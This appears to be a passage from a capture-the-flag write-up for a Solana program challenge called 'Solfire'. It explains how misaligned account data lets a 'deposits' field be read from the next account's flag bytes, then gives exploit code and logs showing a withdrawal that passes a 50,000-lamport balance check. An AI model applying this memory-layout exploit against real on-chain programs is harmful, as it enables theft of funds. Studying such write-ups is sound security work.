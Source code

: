 So assuming that `data` was already aligned properly and no additional padding outside the `MAX_PERMITTED_DATA_INCREASE` is applied then `withdraws` will align with `rent_epoch` and `deposits` will be the first 8 bytes of the next account data which is.

```cpp
uint8_t dup_info = input[0];
input += sizeof(uint8_t);

if (dup_info == UINT8_MAX) {
    // is signer?
    params->ka[i].is_signer = *(uint8_t *) input != 0;
    input += sizeof(uint8_t);

    // is writable?
    params->ka[i].is_writable = *(uint8_t *) input != 0;
    input += sizeof(uint8_t);

    // executable?
    params->ka[i].executable = *(uint8_t *) input;
    input += sizeof(uint8_t);

    input += 4; // padding
```

So as long as the next account after (which is recipient) exists and atleast has a writable flag set then we'll be above the 50k balance (50k = 0xC350)

So let's give it a shot
```cpp
uint32_t target = 50'000;
uint32_t balance_index = 640;
system_create_account(NewAccountData{
    .lamports = 1,
    .space = 0,
    .owner = *solfire_account().key
});

withdraw(balances_account().key, target, user_account().key, vault_account().key, balance_index);
```

Now after all of this
```
  Log Messages:
    Program Fk4FvFrUSwDGE15qaC8gd4WvvLbHNLSjZht6h5A32sit invoke [1]
    Program log: Solution::run
    Program 11111111111111111111111111111111 invoke [2]
    Program 11111111111111111111111111111111 success
    Program 96e3EUQXXb9M5NHU9Vbn4CMfC577ko8dWnRpQKrwDdjn invoke [2]
    Program log: Solfire start
    Program log: handle_withdraw
    Program 11111111111111111111111111111111 invoke [3]
    Program 11111111111111111111111111111111 success
    Program 96e3EUQXXb9M5NHU9Vbn4CMfC577ko8dWnRpQKrwDdjn consumed 44331 of 197472 compute units
    Program 96e3EUQXXb9M5NHU9Vbn4CMfC577ko8dWnRpQKrwDdjn success
    Program Fk4FvFrUSwDGE15qaC8gd4WvvLbHNLSjZht6h5A32sit consumed 46863 of 200000 compute units
    Program Fk4FvFrUSwDGE15qaC8gd4WvvLbHNLSjZht6h5A32sit success
==================================================

user bal: 50009
vault bal: 950000
congrats!
flag: "my_flag_here"
```

